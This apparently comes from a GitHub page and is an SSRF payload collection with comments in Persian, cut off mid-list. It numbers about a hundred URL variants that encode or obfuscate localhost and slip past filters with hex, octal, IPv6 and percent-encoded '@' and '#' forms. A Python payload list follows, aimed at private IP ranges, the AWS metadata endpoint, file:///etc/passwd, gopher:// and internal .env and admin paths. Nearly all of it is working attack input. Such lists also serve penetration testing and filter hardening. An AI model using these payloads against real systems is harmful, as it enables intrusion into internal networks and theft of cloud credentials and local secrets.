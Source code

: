 نه1. http://[::1]  # IPv6 localhost
2. http://0  # نسخه دهدهی localhost
3. http://127.1  # کوتاه شده آی‌پی localhost
4. http://127.0.1.1  # آی‌پی مشابه localhost
5. http://2130706433  # نسخه دهدهی localhost
6. http://0x7F000001  # هگزادسیمال localhost
7. http://017700000001  # اکتال localhost
8. http://localhost:80  # پورت‌های مختلف
9. http://127.0.0.1:80  # پورت‌های مختلف
10. http://127.0.0.1.xip.io  # استفاده از سرویس‌هایی که آی‌پی را به دامنه تبدیل می‌کنند
11. http://localhost.burpcollaborator.net  # استفاده از دامنه‌های ترکیبی
12. http://169.254.169.254/latest/meta-data/ # AWS Metadata
13. http://[::1]:80  # آی‌پی نسخه ۶ با پورت
14. http://127.0.0.1/secure
15. http://127.1/secure
16. http://localhost/secure
17. http://2130706433/secure
18. http://[::1]/secure
19. http://0x7F000001/secure
20. http://localhost@127.0.0.1
21. http://127.0.0.1@localhost
22. http://localhost:8080/admin
23. http://127.0.0.1:8080/admin
24. http://127.0.0.1%23@localhost
25. http://localhost%23@127.0.0.1
26. http://127.0.0.1%23@127.0.0.1
27. http://localhost%23@localhost
28. http://127.0.1.1
29. http://2130706433:80
30. http://2130706433:8080
31. http://127.1:80
32. http://127.1:8080
33. http://127.0.0.1:22
34. http://127.0.0.1:443
35. http://127.0.0.1:8443
36. http://127.0.1.1:22
37. http://127.0.1.1:443
38. http://127.0.1.1:8443
39. http://[::1]:22
40. http://[::1]:443
41. http://[::1]:8443
42. http://localhost%23admin
43. http://127.0.0.1%23admin
44. http://127.0.1.1%23admin
45. http://2130706433%23admin
46. http://[::1]%23admin
47. http://127.0.0.1%252fadmin
48. http://localhost%252fadmin
49. http://127.0.1.1%252fadmin
50. http://2130706433%252fadmin
51. http://[::1]%252fadmin
52. http://127.0.0.1%2fadmin
53. http://localhost%2fadmin
54. http://127.0.1.1%2fadmin
55. http://2130706433%2fadmin
56. http://[::1]%2fadmin
57. http://127.0.0.1%2fsecure
58. http://localhost%2fsecure
59. http://127.0.1.1%2fsecure
60. http://2130706433%2fsecure
61. http://[::1]%2fsecure
62. http://localhost%40example.com
63. http://127.0.0.1%40example.com
64. http://localhost%2523example.com
65. http://127.0.0.1%2523example.com
66. http://localhost%23example.com
67. http://127.0.0.1%23example.com
68. http://localhost%252fexample.com
69. http://127.0.0.1%252fexample.com
70. http://localhost%2fexample.com
71. http://127.0.0.1%2fexample.com
72. http://127.0.0.1:%40example.com
73. http://localhost:%40example.com
74. http://127.0.1.1:%40example.com
75. http://2130706433:%40example.com
76. http://[::1]@example.com
77. http://localhost@example.com
78. http://127.0.0.1@example.com
79. http://localhost:username@example.com
80. http://127.0.0.1:username@example.com
81. http://127.0.1.1:username@example.com
82. http://2130706433:username@example.com
83. http://[::1]:username@example.com
84. http://localhost%40username@example.com
85. http://127.0.0.1%40username@example.com
86. http://localhost%23username@example.com
87. http://127.0.0.1%23username@example.com
88. http://localhost%2523username@example.com
89. http://127.0.0.1%2523username@example.com
90. http://localhost%252fusername@example.com
91. http://127.0.0.1%252fusername@example.com
92. http://localhost%2fusername@example.com
93. http://127.0.0.1%2fusername@example.com
94. http://127.0.1.1%2fusername@example.com
95. http://2130706433%2fusername@example.com
96. http://localhost@%40example.com
97. http://127.0.0.1@%40example.com
98. http://localhost@%23example.com
99. http://127.0.0.1@%23example.com
100. http://localhost@%2523example.com
101. ![IMG_20250126_120819_303](https://github.com/user-attachments/assets/43d50970-4529-4d2e-8bbc-4be647ebe8aa)
payloads = [
    # تست به localhost و IP های خصوصی
    "http://localhost:8080",
    "http://127.0.0.1",
    "http://169.254.169.254/latest/meta-data/",
    "http://192.168.1.1",
    "http://192.168.0.1",
    "http://10.0.0.1",
    "http://10.0.0.2",
    "http://10.0.0.3",
    "http://10.0.0.4",
    "http://10.0.0.5",
    
    # تست به URLهای عمومی
    "http://example.com",
    "http://httpbin.org/get",
    "http://api.ipify.org",
    "http://jsonplaceholder.typicode.com/posts",
    "http://httpbin.org/ip",
    
    # تست به منابع داخلی
    "http://192.168.1.100/admin",
    "http://192.168.1.101:8080",
    "http://192.168.1.102:3000",
    "http://192.168.1.103:5000",
    "http://192.168.1.104:8000",
    
    # تست به AWS metadata
    "http://169.254.169.254/latest/meta-data/",
    "http://169.254.169.254/latest/user-data",
    
    # تست به سرویس‌های DNS
    "http://dns.google.com",
    "http://1.1.1.1",
    
    # تست به پروتکل‌های مختلف
    "ftp://example.com",
    "ftp://ftp.dlptest.com",
    "file:///etc/passwd",  # تست برای دسترسی به فایل‌های محلی
    "file:///C:/Windows/System32/drivers/etc/hosts",  # تست برای ویندوز
    "gopher://example.com",
    
    # تست به URLهای خاص
    "http://localhost:3000/api/v1/users",
    "http://localhost:5000/api/v1/data",
    "http://localhost:8000/api/v1/info",
    
    # تست به IP های عمومی
    "http://8.8.8.8",
    "http://1.1.1.1",
    "http://208.67.222.222",
    
    # تست به URLهای خاص
    "http://localhost:8080/admin",
    "http://localhost:8080/login",
    "http://localhost:8080/health",
    
    # تست به URLهای دیگر
    "http://www.google.com",
    "http://www.bing.com",
    "http://www.yahoo.com",
    
    # تست به URLهای API
    "http://api.github.com/users",
    "http://api.openweathermap.org/data/2.5/weather?q=London",
    
    # تست به URLهای دیگر
    "http://localhost:8080/robots.txt",
    "http://localhost:8080/.env",
    
    # تست به URLهای دیگر
    "http://localhost:8080/status",
    "http://localhost:8080/version",
    
    # تست به URLهای دیگر
    "http://localhost:8080/healthcheck",
    "http://localhost:8080/api/v1/status",
    
    # تست به URLهای دیگر
    "http://localhost:8080/api/v1/health",
    "http://localhost:8080/api/v1/version",
    
    # تست به URLهای دیگر
    "http://localhost:8080/api/v1/config",
    "http://localhost:8080/api/v1/metrics",
    
    # تست به URLهای دیگر
    "http://localhost:8080/api/v1/logs",
    "http://localhost:8080/api/v1/debug",
    
    # تست به URLهای دیگر
    "http://localhost:8080/api/v1/alerts",
    "http://localhost:8080/api/v1/events",
    
    # تست به URLهای دیگر
    "http://localhost:8080/api/v1/notifications",
    "http://localhost:8080/api/v1/updates",
    
    # تست به URLهای دیگر
    "http://localhost:8080/api/v1/commands",
    "http://localhost:8080/api/v1/tasks",
    
    # تست به URLهای دیگر
    "http